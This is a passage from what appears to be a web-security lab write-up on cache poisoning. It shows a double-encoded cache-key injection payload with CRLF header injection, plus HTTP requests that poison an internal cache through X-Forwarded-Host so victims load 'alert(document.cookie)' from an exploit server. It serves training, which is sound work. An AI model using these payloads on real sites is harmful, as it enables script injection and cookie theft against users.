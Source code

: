 ```
Age: 0
X-Cache-Key: /login?lang=en$$
X-Cache: miss
Content-Length: 0
```
The key here is `?utm_content=1`. This is to make the cache server exclude the rest of the cache key, leaving only `/login?lang=en` (which would be the valid cache key when a normal user visits the home page). The rest is to match the cache key stored in the cache server.

Notice the double encoding for the second request (decoded once via the redirect and reflected inside `<script src="/js/localize.js?lang=en?utm_content=1&cors=1$$origin=x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)#cors=0">`, then decoded another time by the browser)

### LAB: Internal cache poisoning
Notice the `X-Forwarded-Host` header is supported. Add a cache buster to ensure we get fresh responses and can interact directly with the internal cache. Send this request: 

    GET / HTTP/2
    X-Forwarded-Host: exploit-0a2e006104fb490f8211a5c9018a00cc.exploit-server.net/exploit#

Notice the canonical URL and `analytics.js` script update immediately in the response. But the `geolocate.js` script takes several attempts before updating. This indicates that the internal cache stores page fragments separately, and `geolocate.js` is cached differently.
Once `geolocate.js` is cached with the attacker's domain, removing `X-Forwarded-Host` from the request still reflects the poisoned URL for `geolocate.j`s, but not for other URLs. This proves that `X-Forwarded-Host` is unkeyed by the internal cache, meaning we can inject a malicious script reference into the internally cached fragment.
On the exploit server, add this to the body:

    alert(document.cookie);

Resend the request: 

    GET / HTTP/2
    X-Forwarded-Host: exploit-0a2e006104fb490f8211a5c9018a00cc.exploit-server.net/exploit#

Keep sending this until all three dynamic URLs in the response (canonical URL, analytics.js, and geolocate.js) point to the exploit server. When a victim visits the home page, their browser loads the cached `geolocate.js` script from the attacker’s server.

